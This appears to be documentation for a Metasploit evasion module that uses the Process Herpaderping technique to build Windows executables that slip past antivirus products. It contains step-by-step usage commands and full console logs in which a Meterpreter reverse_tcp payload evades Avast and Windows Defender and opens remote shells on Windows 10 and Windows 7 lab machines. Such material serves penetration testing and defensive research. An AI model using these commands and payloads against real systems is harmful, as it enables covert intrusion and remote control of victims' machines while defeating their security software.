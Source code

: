 ## Description
This module allows you to generate a Windows executable that evades security
products such as Windows Defender, Avast, etc. This uses the Process
Herpaderping technique to bypass Antivirus detection. This method consists in
obscuring the behavior of a running process by modifying the executable on disk
after the image has been mapped in memory (more details
[here](https://jxy-s.github.io/herpaderping/)).

First, the chosen payload is encrypted and embedded in a loader Portable
Executable (PE) file. This file is then included in the final executable. Once
this executable is launched on the target, the loader PE is dropped on disk and
executed, following the Process Herpaderping technique. Note that the name of
the file that is being dropped is randomly generated. However, it is possible
to configure the destination path from Metasploit (see `WRITEABLE_DIR` option
description).

Here is the main workflow:

1. Retrieve the target name (where the PE loader will be dropped).
1. Retrieve the PE loader from the binary and write it on disk.
1. Create a [section object](https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/section-objects-and-views)
   and create a process from the mapped image.
1. Modify the file content on disk by copying another (inoffensive) executable
   or by using random bytes (see `REPLACED_WITH_FILE` option description).
1. Create the main Thread.

The source code is based on [Johnny Shaw](https://twitter.com/jxy__s)'s
[PoC](https://github.com/jxy-s/herpaderping).

**This payload won't work on 32-bit Windows 10 versions from 1511 (build
10586) to 1703 (build 15063), including Windows 10 2016 LTSB (build 14393).**
These versions have a bug in the kernel that crashes/BugCheck the OS
when executing this payload. So, to avoid this, the payload won't run if
it detects the OS is one of these versions. More details [here](https://bugs.chromium.org/p/project-zero/issues/detail?id=852).

## Verification Steps
Here are the steps using a Meterpreter payload on a 64-bits target:

1. Do: `use evasion/windows/process_herpaderping`
1. Do: `set LHOST <local IP>`
1. Do: `set target 0`
1. Do: `set payload windows/x64/meterpreter/reverse_tcp`
1. Do: `handler -p windows/x64/meterpreter/reverse_tcp -H <local IP> -P <local port>`
1. Do: `run`
1. Copy the generated executable file to the target (using another exploit or SMB)
1. Run it on the target
1. Verify the Antivirus did not block its execution
1. Verify you got a session

## Options

### ENCODER
A specific encoder to use (automatically selected if not set). Note that the
encoded payload will be automatically encrypted before being placed into the
loader.

### FILENAME
Filename for the generated evasive file file. The default is random.

### WRITEABLE_DIR
Where to write the loader on disk. Windows environment variables can be used
in the path and the default is set to `%TEMP%`. Note that this file will be
removed automatically when the session is terminated or if an error occurs.

### REPLACED_WITH_FILE
The file to replace the target with. If not set, the target file will be filled
with random bytes (WARNING! it is likely to be catched by AV). Windows
environment variables can be used in the path and the default is set to
`%SystemRoot%\\System32\\calc.exe`.


## Scenarios
### Windows 10 x64 version 1909 with Avast Antivirus (also tested with Windows Defender)
```
msf6 > use evasion/windows/process_herpaderping
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 evasion(windows/process_herpaderping) > set LHOST 192.168.144.1
LHOST => 192.168.144.1
msf6 evasion(windows/process_herpaderping) > set target 0
target => 0
msf6 evasion(windows/process_herpaderping) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 evasion(windows/process_herpaderping) > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.144.1 -P 4444
[*] Payload handler running as background job 0.

[*] Started reverse TCP handler on 192.168.144.1:4444
msf6 evasion(windows/process_herpaderping) > run
[+] raU.exe stored at /home/msfuser/.msf4/local/raU.exe
msf6 evasion(windows/process_herpaderping) > cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x64.exe
[*] exec: cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x64.exe

msf6 evasion(windows/process_herpaderping) >
[*] Sending stage (200262 bytes) to 192.168.144.128
[*] Meterpreter session 1 opened (192.168.144.1:4444 -> 192.168.144.128:50205) at 2021-01-22 13:02:14 +0100

msf6 evasion(windows/process_herpaderping) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-UUQE0B4
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-UUQE0B4\n00tmeg
meterpreter > [*] Shutting down Meterpreter...

[*] 192.168.144.128 - Meterpreter session 1 closed.  Reason: User exit
```

### Windows 7 x86 with Avast Antivirus
```
msf6 evasion(windows/process_herpaderping) > set target 1
target => 1
msf6 evasion(windows/process_herpaderping) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 evasion(windows/process_herpaderping) > options

Module options (evasion/windows/process_herpaderping):

   Name                Current Setting                 Required  Description
   ----                ---------------                 --------  -----------
   ENCODER                                             no        A specific encoder to use (automatically selected if not set)
   FILENAME            raU.exe                         yes       Filename for the evasive file (default: random)
   REPLACED_WITH_FILE  %SystemRoot%\System32\calc.exe  no        File to replace the target with. If not set, the target file will be filled with random bytes (WARNING! it is likely to be catched by AV).
   WRITEABLE_DIR       %TEMP%                          yes       Where to write the loader on disk


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.144.1    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Evasion target:

   Id  Name
   --  ----
   1   Microsoft Windows (x86)


msf6 evasion(windows/process_herpaderping) > run

[+] raU.exe stored at /home/msfuser/.msf4/local/raU.exe
[!] #### WARNING ####
This payload won't work on 32-bit Windows 10 versions from 1511 (build
10586) to 1703 (build 15063), including Windows 10 2016 LTSB (build 14393).
These versions have a bug in the kernel that crashes/BugCheck the OS
when executing this payload. So, to avoid this, the payload won't run if
it detects the OS is one of these versions.
msf6 evasion(windows/process_herpaderping) > cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x86.exe
[*] exec: cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x86.exe

msf6 evasion(windows/process_herpaderping) > jobs -K
Stopping all jobs...
msf6 evasion(windows/process_herpaderping) > handler -p windows/meterpreter/reverse_tcp -H 192.168.144.1 -P 4444
[*] Payload handler running as background job 1.

[*] Started reverse TCP handler on 192.168.144.1:4444
msf6 evasion(windows/process_herpaderping) > [*] Sending stage (175174 bytes) to 192.168.144.133
[*] Meterpreter session 3 opened (192.168.144.1:4444 -> 192.168.144.133:51542) at 2021-01-22 13:09:43 +0100

msf6 evasion(windows/process_herpaderping) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer        : WIN7-DEV
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: WIN7-DEV\n00tmeg
meterpreter > [*] Shutting down Meterpreter...

[*] 192.168.144.133 - Meterpreter session 3 closed.  Reason: User exit
```
